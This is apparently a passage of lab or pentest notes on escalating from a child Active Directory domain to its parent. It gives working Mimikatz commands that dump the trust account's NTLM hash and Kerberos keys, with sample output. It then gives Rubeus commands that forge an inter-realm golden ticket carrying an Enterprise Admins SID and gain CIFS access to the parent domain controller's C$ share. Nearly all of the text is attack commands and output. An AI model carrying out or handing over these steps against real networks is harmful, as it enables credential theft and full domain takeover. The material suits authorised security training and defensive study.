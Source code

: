 - First we will need the Trust Key of the Parent Domain.
```powershell
mimikatz # lsadump::dcsync /user:techcorp$ /domain:us.techcorp.local
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'techcorp$' will be the user account

Object RDN           : TECHCORP$

** SAM ACCOUNT **

SAM Username         : TECHCORP$
Account Type         : 30000002 ( TRUST_ACCOUNT )
User Account Control : 00000820 ( PASSWD_NOTREQD INTERDOMAIN_TRUST_ACCOUNT )
Account expiration   :
Password last change : 12/3/2023 10:32:41 PM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-1103
Object Relative ID   : 1103

Credentials:
  Hash NTLM: 86d1ec8e8407e8065b6b49e27230e90f

<snip>

upplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALkrbtgtTECHCORP
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : fd06cf5f03fbc7351c5e4700f36619a3510e84f3ceb93636974ae187ea3be4bd
      aes128_hmac       (4096) : bcedd8dc859d6ecfa04e779b3d6e18bc
      des_cbc_md5       (4096) : 5d94b60b26866d6b

<snip>
```
- Alternatively, we can use the following commands but **we need to run Mimikatz on the DC**.
```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::trust /patch
```
- We can now forge the Inter-Realm TGT.
```powershell
PS C:\Auditor> .\Rubeus.exe golden /rc4:86d1ec8e8407e8065b6b49e27230e90f /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /user:Administrator /service:krbtgt /target:techcorp.local /nowrap

<snip>
```
- With the imported TGT we can now request a TGS for any service we want in `TECHCORP-DC`.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgs /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt /nowrap /ticket:doIFw...
```
- We can now access `TECHCORP-DC` via `CIFS`.
```powershell
PS C:\Auditor> dir \\techcorp-dc.techcorp.local\c$\Users


    Directory: \\techcorp-dc.techcorp.local\c$\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
```